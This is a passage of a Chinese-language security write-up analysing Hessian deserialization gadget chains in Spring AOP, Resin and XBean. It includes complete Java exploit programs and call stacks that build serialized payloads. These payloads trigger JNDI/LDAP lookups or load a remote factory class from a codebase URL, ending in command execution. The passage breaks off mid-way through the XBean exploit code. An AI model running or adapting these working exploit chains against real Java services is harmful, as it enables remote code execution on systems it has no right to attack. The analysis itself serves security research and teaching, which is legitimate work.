[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205327-8e34480c-c425-1.png)

**第七步**

进入 AspectJAroundAdvice 对象的 getOrder 方法

```plain
@Override
public int getOrder() {
    return this.aspectInstanceFactory.getOrder();
}
```

接着利用 getOrder 方法，需要设置 aspectInstanceFactory 属性，这里将其设置为 BeanFactoryAspectInstanceFactory 对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205338-9516cf82-c425-1.png)

**第八步**

进入该对象的 getOrder 方法

```plain
@Override
public int getOrder() {
    // 关键点
    Class<?> type = this.beanFactory.getType(this.name);
    if (type != null) {
        if (Ordered.class.isAssignableFrom(type) && this.beanFactory.isSingleton(this.name)) {
            return ((Ordered) this.beanFactory.getBean(this.name)).getOrder();
        }
        return OrderUtils.getOrder(type, Ordered.LOWEST_PRECEDENCE);
    }
    return Ordered.LOWEST_PRECEDENCE;
}
```

这里需要利用的是 getType 方法，但是需要设置 beanFactory 和 name 两个属性，根据后面链利用，将 beanFactory 设置为 SimpleJndiBeanFactory 对象，name 设置为 ldap url

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205351-9c4fd3de-c425-1.png)

**第九步**

进入 SimpleJndiBeanFactory 的 getType 方法

```plain
public Class<?> getType(String name) throws NoSuchBeanDefinitionException {
    try {
        // 这里
        return this.doGetType(name);
    } catch (NameNotFoundException var3) {
        throw new NoSuchBeanDefinitionException(name, "not found in JNDI environment");
    } catch (NamingException var4) {
        return null;
    }
}
```

没有条件限制，查看其 doGetType 方法

```plain
private Class<?> doGetType(String name) throws NamingException {
    if (this.isSingleton(name)) {
        Object jndiObject = this.doGetSingleton(name, (Class)null);
        return jndiObject != null ? jndiObject.getClass() : null;
    } else {
        synchronized(this.resourceTypes) {
            if (this.resourceTypes.containsKey(name)) {
                return (Class)this.resourceTypes.get(name);
            } else {
                // 利用点
                Object jndiObject = this.lookup(name, (Class)null);
                Class<?> type = jndiObject != null ? jndiObject.getClass() : null;
                this.resourceTypes.put(name, type);
                return type;
            }
        }
    }
}
```

要到达利用点，需要满足两个条件：

-   this.isSingleton(name) 为 false
    
    ```plain
    public boolean isSingleton(String name) throws NoSuchBeanDefinitionException {
        return this.shareableResources.contains(name);
    }
    ```
    
    shareableResources 属性中不包含 ldap url
    
-   this.resourceTypes.containsKey(name) 为 false，而 resourceTypes 属性中也不包含 ldap url
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205405-a5286778-c425-1.png)

来到父类 JndiLocatorSupport 的 lookup 方法，关键代码如下：

```plain
jndiObject = this.getJndiTemplate().lookup(convertedName, requiredType);
```

先观察 getJndiTemplate 方法，需要进入到 JndiLocatorSupport 的父类 JndiAccessor 类

```plain
public JndiTemplate getJndiTemplate() {
    return this.jndiTemplate;
}
```

在构造方法中会将其初始化为 JndiTemplate 对象，回到 JndiLocatorSupport 的 lookup 方法，getJndiTemplate 返回的是一个 JndiTemplate 对象，调用其 lookup 方法

```plain
public <T> T lookup(String name, Class<T> requiredType) throws NamingException {
    Object jndiObject = this.lookup(name);
    if (requiredType != null && !requiredType.isInstance(jndiObject)) {
        throw new TypeMismatchNamingException(name, requiredType, jndiObject != null ? jndiObject.getClass() : null);
    } else {
        return jndiObject;
    }
}
```

进入重载方法

```plain
public Object lookup(final String name) throws NamingException {
    if (this.logger.isDebugEnabled()) {
        this.logger.debug("Looking up JNDI object with name [" + name + "]");
    }

    // 关键在这里
    return this.execute(new JndiCallback<Object>() {
        public Object doInContext(Context ctx) throws NamingException {
            // 关键点
            Object located = ctx.lookup(name);
            if (located == null) {
                throw new NameNotFoundException("JNDI object with [" + name + "] not found: JNDI implementation returned null");
            } else {
                return located;
            }
        }
    });
}
```

这段代码的作用是在 JNDI 中查找指定名称的对象。它通过执行一个`JndiCallback`对象的`doInContext()`方法，在 JNDI 上下文中调用`lookup()`方法查找对象，并根据查找结果进行处理。如果找到对象，就返回该对象；如果找不到对象，就抛出异常。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205421-aec252bc-c425-1.png)

接下来就是 LDAP lookup 解析的过程

#### 其他

-   其实完全可以将 HotSwappableTargetSource 去掉，毕竟 XString 中 equals 方法，不需要使用它来过度
    
-   在 SimpleJndiBeanFactory 的 doGetType 方法中，如果 this.isSingleton(name) 条件满足，会调用 doGetSingleton 方法，该方法中也有利用点
    
    ```plain
    private <T> T doGetSingleton(String name, Class<T> requiredType) throws NamingException {
        synchronized(this.singletonObjects) {
            Object jndiObject;
            if (this.singletonObjects.containsKey(name)) {
                jndiObject = this.singletonObjects.get(name);
                if (requiredType != null && !requiredType.isInstance(jndiObject)) {
                    throw new TypeMismatchNamingException(this.convertJndiName(name), requiredType, jndiObject != null ? jndiObject.getClass() : null);
                } else {
                    return jndiObject;
                }
            } else {
                // 这里
                jndiObject = this.lookup(name, requiredType);
                this.singletonObjects.put(name, jndiObject);
                return jndiObject;
            }
        }
    }
    ```
    
    后面部分也是一致的，只需要在 exp 中加入
    
    ```plain
    HashSet<String> set = new HashSet<>();
    set.add(url);
    setFiled(simpleJndiBeanFactory, "shareableResources", set);
    ```
    
    调用栈：
    
    ```plain
    doInContext:155, JndiTemplate$1 (org.springframework.jndi)
    execute:87, JndiTemplate (org.springframework.jndi)
    lookup:152, JndiTemplate (org.springframework.jndi)
    lookup:179, JndiTemplate (org.springframework.jndi)
    lookup:95, JndiLocatorSupport (org.springframework.jndi)
    doGetSingleton:211, SimpleJndiBeanFactory (org.springframework.jndi.support)
    doGetType:219, SimpleJndiBeanFactory (org.springframework.jndi.support)
    getType:184, SimpleJndiBeanFactory (org.springframework.jndi.support)
    ...
    ```
    
-   根据分析很容易理解 exp 构造，在 exp 构造中，很多类没有无参数构造方法，这里参考 marshalsec 中的设计，非常巧妙
    

### Spring AbstractBeanFactoryPointcutAdvisor 链

#### 利用链

```plain
SimpleJndiBeanFactory.getBean() (org.springframework.jndi.support)
AbstractBeanFactoryPointcutAdvisor.getAdvice()  (org.springframework.aop.support)  // 主要
AbstractPointcutAdvisor.equals()   (org.springframework.aop.support)
HotSwappableTargetSource.equals()    (org.springframework.aop.target) 
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import org.springframework.scheduling.annotation.AsyncAnnotationAdvisor;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class AbstractBeanFactoryPointcutAdvisorHessian {
    public static void main(String[] args) throws Exception {
        // ldap url
        String url = "ldap://127.0.0.1:1389/ppkhjx";

        SimpleJndiBeanFactory beanFactory = new SimpleJndiBeanFactory();
        // String SimpleJndiBeanFactory = "org.springframework.jndi.support.SimpleJndiBeanFactory";
        // SimpleJndiBeanFactory beanFactory = (SimpleJndiBeanFactory) Class.forName(SimpleJndiBeanFactory).getDeclaredConstructor(new Class[]{}).newInstance();
        beanFactory.setShareableResources(url);

        String defaultBeanFactoryPointcutAdvisor = "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor";
        Constructor<?> constructor = Class.forName(defaultBeanFactoryPointcutAdvisor).getDeclaredConstructor(new Class[]{});
        DefaultBeanFactoryPointcutAdvisor advisor1 = (DefaultBeanFactoryPointcutAdvisor) constructor.newInstance();
        advisor1.setAdviceBeanName(url);
        advisor1.setBeanFactory(beanFactory);
        AsyncAnnotationAdvisor advisor2 = new AsyncAnnotationAdvisor();

        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource("1");
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource("2");

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");

        String classname = "org.springframework.aop.target.HotSwappableTargetSource";
        setFiled(classname, targetSource1, "target", advisor1);
        setFiled(classname, targetSource2, "target", advisor2);

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/AbstractBeanFactoryPointcutAdvisorHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/AbstractBeanFactoryPointcutAdvisorHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();


    }

    public static void setFiled(String classname, Object o, String fieldname, Object value) throws Exception {
        Class<?> aClass = Class.forName(classname);
        Field field = aClass.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

#### 函数调用栈

```plain
lookup:417, InitialContext (javax.naming)
doInContext:155, JndiTemplate$1 (org.springframework.jndi)
execute:87, JndiTemplate (org.springframework.jndi)
lookup:152, JndiTemplate (org.springframework.jndi)
lookup:179, JndiTemplate (org.springframework.jndi)
lookup:95, JndiLocatorSupport (org.springframework.jndi)
doGetSingleton:211, SimpleJndiBeanFactory (org.springframework.jndi.support)
getBean:111, SimpleJndiBeanFactory (org.springframework.jndi.support)
getAdvice:116, AbstractBeanFactoryPointcutAdvisor (org.springframework.aop.support)
equals:76, AbstractPointcutAdvisor (org.springframework.aop.support)
equals:104, HotSwappableTargetSource (org.springframework.aop.target)
putVal:634, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:538, SerializerFactory (com.caucho.hessian.io)
readObject:2110, Hessian2Input (com.caucho.hessian.io)
main:74, AbstractBeanFactoryPointcutAdvisorHessian (org.dili.hessian)
```

#### 详细分析

**第一步**

从 Hessian2Input 的 readObject 方法开始，和上面一致，来到 MapDeserializer 的 readMap 方法，同样进入 while 循环，读取完一轮后，即将 exp 中第一次的 put 读入 map 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205502-c6b66502-c425-1.png)

接着在第二轮中触发链的执行

**第二步**

同样根据 HashMap 的属性，会在第二轮读取键值对时进行 equals 方法的调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205514-cdd4b4e2-c425-1.png)

此时的 key 为 HotSwappableTargetSource 对象，里面的 target 为 AsyncAnnotationAdvisor 对象；而 k 也为 HotSwappableTargetSource 对象，里面的参数为 DefaultBeanFactoryPointcutAdvisor 对象

**第三步**

进入 HotSwappableTargetSource 的 equals 方法，继续调用 target 的 equals 方法，同时传递的参数为 k 对象的 target。由于 AsyncAnnotationAdvisor 对象没有 equals 方法，调用父类 AbstractPointcutAdvisor 的 equals 方法，此时的 other 为 DefaultBeanFactoryPointcutAdvisor 对象

```plain
@Override
public boolean equals(Object other) {
    // 满足条件 1
    if (this == other) {
        return true;
    }
    // 满足条件 2
    if (!(other instanceof PointcutAdvisor)) {
        return false;
    }
    PointcutAdvisor otherAdvisor = (PointcutAdvisor) other;
    // 触发点为 getAdvice，也是第二个 getAdvice 方法
    return (ObjectUtils.nullSafeEquals(getAdvice(), otherAdvisor.getAdvice()) &&
            ObjectUtils.nullSafeEquals(getPointcut(), otherAdvisor.getPointcut()));
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205528-d6672f2c-c425-1.png)

**注**：关于两个 if

-   第一个：两个 HotSwappableTargetSource 对象里面的 target 不能一致
-   第二个：传入的 other 对象需要是 PointcutAdvisor 实例，正好 DefaultBeanFactoryPointcutAdvisor 继承 AbstractBeanFactoryPointcutAdvisor，而该类继承 AbstractPointcutAdvisor，接着继承 PointcutAdvisor，符合要求

**第四步**：

进入 DefaultBeanFactoryPointcutAdvisor 对象的 getAdvice 方法，由于该类没有此方法，调用父类 AbstractBeanFactoryPointcutAdvisor 的 getAdvice 方法

```plain
@Override
public Advice getAdvice() {
    Advice advice = this.advice;
    // 条件 1，正常实例化对象就是 null，不太需要关注
    if (advice != null) {
        return advice;
    }

    // 这里需要关注
    Assert.state(this.adviceBeanName != null, "'adviceBeanName' must be specified");
    Assert.state(this.beanFactory != null, "BeanFactory must be set to resolve 'adviceBeanName'");

    // 需要进入关键点，需要满足该条件
    if (this.beanFactory.isSingleton(this.adviceBeanName)) {
        // Rely on singleton semantics provided by the factory.
        // 关键点
        advice = this.beanFactory.getBean(this.adviceBeanName, Advice.class);
        this.advice = advice;
        return advice;
    }
    else {
        // No singleton guarantees from the factory -> let's lock locally but
        // reuse the factory's singleton lock, just in case a lazy dependency
        // of our advice bean happens to trigger the singleton lock implicitly...
        synchronized (this.adviceMonitor) {
            advice = this.advice;
            if (advice == null) {
                advice = this.beanFactory.getBean(this.adviceBeanName, Advice.class);
                this.advice = advice;
            }
            return advice;
        }
    }
}
```

这里和 PartiallyComparableAdvisorHolder 链的后半部分类似，需要借助 SimpleJndiBeanFactory 对象，因此将 beanFactory 属性设置为 SimpleJndiBeanFactory 对象，根据后面 SimpleJndiBeanFactory 对象的 getBean 方法，要将 adviceBeanName 设置为 JNDI url

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205540-ddc50ba4-c425-1.png)

**注**：

-   这里的 this.beanFactory.isSingleton(this.adviceBeanName) 要返回 true，根据分析，需要将 SimpleJndiBeanFactory 对象的 shareableResources 属性中塞入 Ldap url，通过 setShareableResources 方法

**第五步**

进入 SimpleJndiBeanFactory 对象的 getBean 方法

```plain
public <T> T getBean(String name, Class<T> requiredType) throws BeansException {
    try {
        // 关键点
        return this.isSingleton(name) ? this.doGetSingleton(name, requiredType) : this.lookup(name, requiredType);
    } catch (NameNotFoundException var4) {
        throw new NoSuchBeanDefinitionException(name, "not found in JNDI environment");
    } catch (TypeMismatchNamingException var5) {
        throw new BeanNotOfRequiredTypeException(name, var5.getRequiredType(), var5.getActualType());
    } catch (NamingException var6) {
        throw new BeanDefinitionStoreException("JNDI environment", name, "JNDI lookup failed", var6);
    }
}
```

这里的 this.isSingleton(name) 返回 true 或 false 都一样，因为后面两个最终都会到 lookup 处

**第六步**

后面部分跟 PartiallyComparableAdvisorHolder 链的后半部分一致

#### 其他

-   为什么要加入 HotSwappableTargetSource 对象的嵌套
    
    最初的目的想直接将 DefaultBeanFactoryPointcutAdvisor 对象 put 进入 HashMap，没有这么做的原因有两点：
    
    -   DefaultBeanFactoryPointcutAdvisor 对象中的 beanFactory 与 adviceBeanName 属性在 HashMap put 之前设置，这样会导致在 HashMap 进行第二次 put 时出现异常，此时命令也执行成功，但是 exp 后面的序列化与反序列化部分未执行（这还有其他阻止异常的方式）
        
    -   基于上述原因，考虑将 DefaultBeanFactoryPointcutAdvisor 对象中的 beanFactory 与 adviceBeanName 属性在 HashMap 进行 put 之后，序列化之前进行设置，这样在进行第二次 put 时，来到 DefaultBeanFactoryPointcutAdvisor 对象的 getAdvice 方法中会出现问题
        
        ```plain
        Assert.state(this.adviceBeanName != null, "'adviceBeanName' must be specified");
        Assert.state(this.beanFactory != null, "BeanFactory must be set to resolve 'adviceBeanName'");
        ```
        
        而 Assert.state 定义如下
        
        ```plain
        public static void state(boolean expression, String message) {
            if (!expression) {
                throw new IllegalStateException(message);
            }
        }
        ```
        
        此时 this.adviceBeanName 和 this.beanFactory 都为 null，表达式为 false，取反为 true，故出现异常
        
    -   综上考虑，加入一层 HotSwappableTargetSource 对象，将 HotSwappableTargetSource 对象的 target 在 put 操作之后进行设置
        
-   避免出现异常，exp 执行终止而导致为序列化的方法
    
-   在 AbstractPointcutAdvisor 类中的 equals 方法，存在两个 getAdvice，其实在 hashMap 中，两个 key 调换顺序都会触发执行，只不过调用栈会有所不同
    

### Resin 链

依赖

```plain
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>resin</artifactId>
    <version>4.0.63</version>
</dependency>
```

#### 利用链

```plain
NamingManager.getObjectFactoryFromReference() (javax.naming.spi)
NamingManager.getObjectInstance() (javax.naming.spi)
NamingManager.getContext() (javax.naming.spi)
ContinuationContext.getTargetContext() (javax.naming.spi)
ContinuationContext.composeName() (javax.naming.spi)   // 关键点
QName.toString() (com.caucho.naming)     // 关键点
XString.equals() (com.sun.org.apache.xpath.internal.objects)
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;
import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class ResinHessian {
    public static void main(String[] args) throws Exception {
        String refAddr = "http://127.0.0.1:8888/";
        String refClassName = "test";

        Reference ref = new Reference(refClassName, refClassName, refAddr);

        Object cannotProceedException = Class.forName("javax.naming.CannotProceedException").getDeclaredConstructor().newInstance();
        String classname = "javax.naming.NamingException";
        setFiled(classname, cannotProceedException, "resolvedObj", ref);

        // 创建ContinuationContext对象
        Class<?> aClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> constructor = aClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        // 构造方法为protected修饰
        constructor.setAccessible(true);
        Context continuationContext = (Context) constructor.newInstance(cannotProceedException, new Hashtable<>());


        // 创建QName
        QName qName = new QName(continuationContext, "aaa", "bbb");
        String str = unhash(qName.hashCode());
        // 创建Xtring
        XString xString = new XString(str);

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(qName, "111");
        hashMap.put(xString, "222");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/ResinHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/ResinHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }

    public static void setFiled(String classname, Object o, String fieldname, Object value) throws Exception {
        Class<?> aClass = Class.forName(classname);
        Field field = aClass.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }

    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            // String with hash of Integer.MIN_VALUE, 0x80000000
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            // Find target without sign bit set
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }
    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }
}
```

#### 函数调用栈

```plain
exec:347, Runtime (java.lang)
<init>:6, test
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
getContext:439, NamingManager (javax.naming.spi)
getTargetContext:55, ContinuationContext (javax.naming.spi)
composeName:180, ContinuationContext (javax.naming.spi)
toString:353, QName (com.caucho.naming)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
putVal:634, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:538, SerializerFactory (com.caucho.hessian.io)
readObject:2110, Hessian2Input (com.caucho.hessian.io)
main:62, ResinHessian (org.dili.hessian)
```

#### 详细分析

**第一步**

还是同样的流程，Hessian2Input.readObject 方法到 MapDeserializer.readMap 方法，来到关键的循环处，读取 hashMap，依然是读取一轮后，在第二轮读取中触发

**第二步**

这条链依旧借助 XString 中的 equals 方法，所以在 exp 中第二次 put 进去的是 XString 对象，但是根据 HashMap 中 putVal 方法的了解，要想到达 equals 方法的调用处，需要满足前面的几个 if 条件：

-   (p = tab\[i = (n - 1) & hash\]) == null
-   p.hash == hash

其实这两个条件表达的意思一致，就是 put 进去的两个元素的 hashcode 要一致，这样才有资格到达 equals 方法处，第一个元素 QName 对象是需要利用的对象，固定不动，而 XString 是为了触发 equals 方法而构造的对象，对链的后半部分无影响，因此可以根据 QName 的 hash 来构造 XString 对象

-   目标 hash：QName 中有 hashCode 方法，直接调用即可得到目标 hash
    
-   如何构造能够影响 XString 的 hash
    
    查看其 hashCode 方法
    
    ```plain
    public int hashCode()
    {
    return str().hashCode();
    }
    ```
    
    查看 str 方法
    
    ```plain
    public String str()
    {
        return (null != m_obj) ? ((String) m_obj) : "";
    }
    ```
    
    即将 m\_obj 属性转换成字符串类型返回，最后调用 String 的 hashCode 方法进行 hash 计算，这里的 m\_obj 即是实例化 XString 传入的参数
    
    现在的关键点在于根据 String 类的 hashCode 逻辑，得到该方法的逆操作，即根据 hash 值得到对应的 string，然后将其作为 m\_obj
    
    详细的逆操作算法参考网上，详细查看 exp 中 unhash
    

最终通过构造的 XString 即可绕过两个条件，调用 XString 的 equals 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205613-f17bad10-c425-1.png)

**第三步**

在 XString 的 equals 方法中会调用传入参数的 toString 方法，即 QName 对象的 toString 方法

**第四步**

进入 QName 的 toString 方法

```plain
public String toString()
{
    String name = null;

    for (int i = 0; i < size(); i++) {
        String str = (String) get(i);

        if (name != null) {
            try {
                // 关键点
                name = _context.composeName(str, name);
            } catch (NamingException e) {
                name = name + "/" + str;
            }
        }
        else
            name = str;
    }
```

这里利用的是 composeName 方法，需要将\_context 属性设置为 ContinuationContext 对象，就能够调用其 composeName 方法进行下一步操作

那么需要到达关键点处，就需要满足相关条件，即 name != null，在方法开始处 name 被赋值为 null，只能看 for 循环中的操作，这里需要循环两次，第一次通过 else 为 name 赋值，第二次进入关键点，那么需要观察 size 方法和 get 方法

```plain
public int size()
{
    return _items.size();
}
public String get(int pos)
{
    if (pos < _items.size())
        return (String) _items.get(pos);
    else
        return null;
}
```

这里的 items 是一个数组

```plain
private ArrayList<String> _items = new ArrayList<String>();
```

因此只需要在构造 QName 时为\_items 赋值即可，有多种方法

-   构造方法
    
    ```plain
    public QName(Context context, String first, String rest)
    {
        _context = context;
    
        if (first != null)
            _items.add(first);
        if (rest != null)
            _items.add(rest);
    }
    ```
    
-   通过成员方法
    
    ```plain
    public Name add(int posn, String comp)
        throws InvalidNameException
    {
        _items.add(posn, comp);
    
        return this;
    }
    ```
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205634-fd8edac8-c425-1.png)

**第五步**

进入 ContinuationContext 类的 composeName 方法

```plain
public String composeName(String name, String prefix)
    throws NamingException {
    // 关键点
    Context ctx = getTargetContext();
    return ctx.composeName(name, prefix);
}
```

进入 getTargetContext 方法

```plain
protected Context getTargetContext() throws NamingException {
    if (contCtx == null) {
        if (cpe.getResolvedObj() == null)
            throw (NamingException)cpe.fillInStackTrace();

        // 关键点
        contCtx = NamingManager.getContext(cpe.getResolvedObj(),
                                           cpe.getAltName(),
                                           cpe.getAltNameCtx(),
                                           env);
        if (contCtx == null)
            throw (NamingException)cpe.fillInStackTrace();
    }
    return contCtx;
}
```

首先观察关键点中所需要的参数，cpe 和 env，而到达关键点，需要满足 if 中的条件

-   contCtx == null，在构造中本身就不设置，所以不需要考虑
-   cpe.getResolvedObj() 返回不为 null，同时在关键点参数中也会用到，因此这里需要构造，不会为 null

观察 ContinuationContext 的构造方法

```plain
protected ContinuationContext(CannotProceedException cpe,
                              Hashtable<?,?> env) {
    this.cpe = cpe;
    this.env = env;
}
```

两个点：

-   cpe 为 CannotProceedException 对象，因此需要构造该类对象，因此 getResolvedObj() 等方法需要在构造 CannotProceedException 时设置
-   该构造方法为 protected 修饰，因此通过反射得到对应的构造方法后，需要通过 setAccess 进行设置

**第六步**

进入 NamingManager 的 getContext，看看需要传入什么参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205654-09aaef90-c426-1.png)

得到一个条件，传入的参数不能为 Context 实例

还是这些参数，继续进入 getObjectInstance 方法

```plain
public static Object
    getObjectInstance(Object refInfo, Name name, Context nameCtx,
                      Hashtable<?,?> environment)
    throws Exception
{

    ObjectFactory factory;

    // Use builder if installed
    ObjectFactoryBuilder builder = getObjectFactoryBuilder();
    if (builder != null) {
        // builder must return non-null factory
        factory = builder.createObjectFactory(refInfo, environment);
        return factory.getObjectInstance(refInfo, name, nameCtx,
                                         environment);
    }

    // Use reference if possible
    Reference ref = null;
    if (refInfo instanceof Reference) {
        ref = (Reference) refInfo;
    } else if (refInfo instanceof Referenceable) {
        ref = ((Referenceable)(refInfo)).getReference();
    }

    Object answer;

    if (ref != null) {
        String f = ref.getFactoryClassName();
        if (f != null) {
            // if reference identifies a factory, use exclusively

            // 关键点
            factory = getObjectFactoryFromReference(ref, f);
            // ....
    }
    // ...
}
```

其实这条链就是需要远程加载恶意类，根据代码，需要让 refInfo 为 Reference 实例，同时 ref.getFactoryClassName() 不为空，至于设置成分什么，继续观察后面方法，来到 getObjectFactoryFromReference 方法

```plain
static ObjectFactory getObjectFactoryFromReference(
    Reference ref, String factoryName)
    throws IllegalAccessException,
InstantiationException,
MalformedURLException {
    Class<?> clas = null;

    // Try to use current class loader
    try {
        clas = helper.loadClass(factoryName);
    } catch (ClassNotFoundException e) {
        // ignore and continue
        // e.printStackTrace();
    }
    // All other exceptions are passed up.

    // Not in class path; try to use codebase
    String codebase;
    if (clas == null &&
        (codebase = ref.getFactoryClassLocation()) != null) {
        try {
            // 通过代码库加载工厂类
            clas = helper.loadClass(factoryName, codebase);
        } catch (ClassNotFoundException e) {
        }
    }
    // 实例化类
    return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
}
```

首先观察这里的 helper.loadClass

```plain
static final VersionHelper helper = VersionHelper.getVersionHelper();
```

这里的 helper 是一个 VersionHelper12 对象，查看 loadClass 方法，其加载时使用了 URLClassLoader

```plain
public Class<?> loadClass(String className, String codebase)
    throws ClassNotFoundException, MalformedURLException {

    ClassLoader parent = getContextClassLoader();
    // 这里
    ClassLoader cl =
        URLClassLoader.newInstance(getUrlArray(codebase), parent);

    return loadClass(className, cl);
}
```

这里可以通过远程代码库加载类，因此这里的 factoryName 可以设置为恶意类名，codebase 设置为远程代码库地址

重新梳理一下：

前面提到，refInfo 要为 Reference 类，根据 getResolvedObj 看 cpe 如何构造

CannotProceedException 继承 NamingException，调用父类的 getResolvedObj 方法

```plain
public Object getResolvedObj() {
    return resolvedObj;
}
```

因此在构造 CannotProceedException 对象时，需要将 resolvedObj 属性设置成构造的 Reference 对象

那么 Reference 如何构造，需要的点数据流如下：

-   cpe.getResolvedObj()——>refInfo——>ref——>ref.getFactoryClassName()——>f——>factoryName
    
    查看 Reference 的 getFactoryClassName() 方法
    
    ```plain
    public String getFactoryClassName() {
        return classFactory;
    }
    ```
    
    因此设置 classFactory 属性为恶意类名
    
-   cpe.getResolvedObj()——>refInfo——>ref.getFactoryClassLocation()——>codebase
    
    查看 Reference 的 getFactoryClassLocation 方法
    
    ```plain
    public String getFactoryClassLocation() {
        return classFactoryLocation;
    }
    ```
    
    设置 classFactoryLocation 属性为恶意的 URL
    
-   综上，选择合适的 Reference 的构造方法
    
    ```plain
    public Reference(String className, String factory, String factoryLocation) {
        this(className);
        classFactory = factory;
        classFactoryLocation = factoryLocation;
    }
    ```
    
    选择这个即可
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205720-19409856-c426-1.png)

最终实例化后导致命令执行

### XBean 链

依赖

```plain
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-naming</artifactId>
    <version>4.24</version>
</dependency>
```

#### 利用链

```plain
NamingManager.getObjectFactoryFromReference() (javax.naming.spi)
NamingManager.getObjectInstance() (javax.naming.spi)
ContextUtil.resolve()   (org.apache.xbean.naming.context)// 关键点
ContextUtil$ReadOnlyBinding.getObject() (org.apache.xbean.naming.context)// 关键点
Binding.toString() (com.caucho.naming)     // 关键点
XString.equals() (com.sun.org.apache.xpath.internal.objects)
HotSwappableTargetSource.equals()
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.WritableContext;
import org.springframework.aop.target.HotSwappableTargetSource;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.util.HashMap;

public class XbeanHessian {
    public static void main(String[] args) throws Exception {
        String refAddr = "http://127.0.0.1:8888/";
        String refClassName = "test";

        Reference ref = new Reference(refClassName, refClassName, refAddr);
        WritableContext writableContext = new WritableContext();

        // 创建ReadOnlyBinding对象
